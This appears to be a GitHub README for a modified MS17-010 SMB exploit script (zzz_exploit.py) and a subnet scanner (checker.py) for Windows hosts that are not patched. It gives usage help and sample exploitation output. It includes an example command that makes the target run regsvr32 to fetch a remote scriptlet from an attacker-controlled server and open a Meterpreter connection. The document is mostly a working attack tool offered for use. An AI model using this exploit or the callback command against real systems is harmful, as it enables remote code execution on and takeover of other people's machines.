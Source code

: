# MS17-010: Python
All credit goes to Worawit: 

[Worawit Wang: GitHub](https://github.com/worawit/MS17-010/)

[Worawit Wang: Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

The zzz_exploit.py found in this repo is the same exploit logic. But it has been made more dynamic. It is now possible to pass user and password with the -u and -p, respectively. A command to write to a service is passed with the -c option and the target and pipe are -t and -p. 

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)

Here is the full help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```

Sample output:
```
> # python zzz_exploit.py -t 10.10.11.53                                                                                                                                                     
[08:38:41]  [INFO]: 	TARGET: 10.10.11.53
[08:38:41]  [ACTION]: 	CONNECTING TO TARGET...
[08:38:41]  [ACTION]: 	GETTING TARGET OS...
[08:38:41]  [INFO]: 	TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:38:41]  [ACTION]: 	GETTING PIPE...
[08:38:41]  [INFO]: 	USING PIPE: spoolss
[08:38:41]  [INFO]: 	TARGET ARCHITECTURE: 64 bit
[08:38:41]  [INFO]: 	FRAG SIZE: 0x20
[08:38:41]  [INFO]: 	GROOM_POOL_SIZE: 0x5030
[08:38:41]  [INFO]: 	BRIDE_TRANS_SIZE: 0xf90
[08:38:41]  [INFO]: 	CONNECTION: 0xffffe001c6257910
[08:38:41]  [INFO]: 	SESSION: 0xffffc000f987c810
[08:38:41]  [INFO]: 	FLINK: 0xffffc000faf26098
[08:38:41]  [INFO]: 	InParam: 0xffffc000faf2016c
[08:38:41]  [INFO]: 	MID: 0x2203
[08:38:41]  [SUCCESS]: 	SUCCESS CONTROLLING GROOM TRANSACTION
[08:38:41]  [ACTION]: 	MODIFYING TRANS1 STRUCT FOR READ/WRITE
[08:38:42]  [ACTION]: 	CREATING SYSTEM SESSION TO SMB...
[08:38:42]  [ACTION]: 	OVERWRITING SESSION SECURITY CONTEXT
[08:38:42]  [SUCCESS]: 	FINISHED!
```
I wrote an article using Korey's payload and the new changes to the script, please see it [here](https://mez0.cc/posts/weaponised-worawit.html)


I made similar changes to checker.py, but the only additional logic I added was to be able to effectively run this script across a subnet. I imported the **netaddr** module and wrote a short for loop to run across the subnet.

Here is the help page for checker.py:

```
➜  MS17-010_WORAWIT git:(master) ✗ python checker.py --help         
usage: checker.py [-h] [-u] [-p] -t  [--version]

MS17-010 Checker script

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target to check for MS17-010
  --version         show program's version number and exit

Example: python checker.py -t 192.168.0.1
```
Sample output:
```
> # python checker.py -t 10.10.11.53                                                                                                                                                         
[08:37:25]  [INFO]: 	CONNECTED TO 10.10.11.53
[08:37:25]  [INFO]: 	TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:37:25]  [SUCCESS]: 	10.10.11.53 IS NOT PATCHED!
[08:37:25]  [ACTION]: 	CHECKING NAMED PIPES...
[08:37:25]  [SUCCESS]: 	spoolss: OK (64 bit)
[08:37:26]  [SUCCESS]: 	samr: OK (64 bit)
[08:37:26]  [SUCCESS]: 	netlogon: OK (64 bit)
[08:37:26]  [SUCCESS]: 	lsarpc: OK (64 bit)
[08:37:26]  [ERROR]: 	browser: STATUS_OBJECT_NAME_NOT_FOUND

```

Any further ideas, changes or fixes; please let me know!
